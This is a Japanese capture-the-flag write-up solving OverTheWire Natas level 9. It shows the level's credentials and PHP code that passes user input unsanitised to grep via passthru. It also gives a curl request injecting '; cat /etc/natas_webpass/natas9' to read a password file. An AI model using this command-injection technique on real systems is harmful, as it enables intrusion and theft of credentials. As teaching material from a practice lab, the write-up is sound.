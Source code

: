 # NATAS9

- Username: natas9
- Password: W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl
- URL: http://natas9.natas.labs.overthewire.org

```
$ curl -u natas9:W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl http://natas9.natas.labs.overthewire.org
```
```html
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas9", "pass": "W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl" };</script></head>
<body>
<h1>natas9</h1>
<div id="content">
<form>
Find words containing: <input name=needle><input type=submit name=submit value=Search><br><br>
</form>


Output:
<pre>
</pre>

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```
ヒントに
```
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
```
と書いてあります。  
ブラウザで`http://natas9:W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl@natas9.natas.labs.overthewire.org/index-source.html`にアクセスします。
```
...
<form>
Find words containing: <input name=needle><input type=submit name=submit value=Search><br><br>
</form>


Output:
<pre>
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    passthru("grep -i $key dictionary.txt");
}
?>
</pre>
...
```
コードをみると`$key`が空文字でなければ`dictionary.txt`の中に`$key`の値があるか判断しています。  
想定するコードは以下の通りです。()
```
$ grep -i ; cat /etc/natas_webpass/natas9 dictionary.txt
```
なので`key=; cat /etc/natas\_webpass/natas9`となるようにします。  
urlencodeするために`urlencode`という関数を定義します。
```sh
function urlencode {
  echo "$1" | nkf -WwMQ | sed 's/=$//g' | tr = % | tr -d '\n'
}
```

```
$ urlencode "; cat /etc/natas\_webpass/natas9"
```
```
%3B%20cat%20%2Fetc%2Fnatas%5C%5Fwebpass%2Fnatas9
```
```
$ curl -u natas9:W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl \
       -d "needle=%3B%20cat%20%2Fetc%2Fnatas%5C%5Fwebpass%2Fnatas9&submit=Search" \
          http://natas9.natas.labs.overthewire.org |
  head -n 30
```
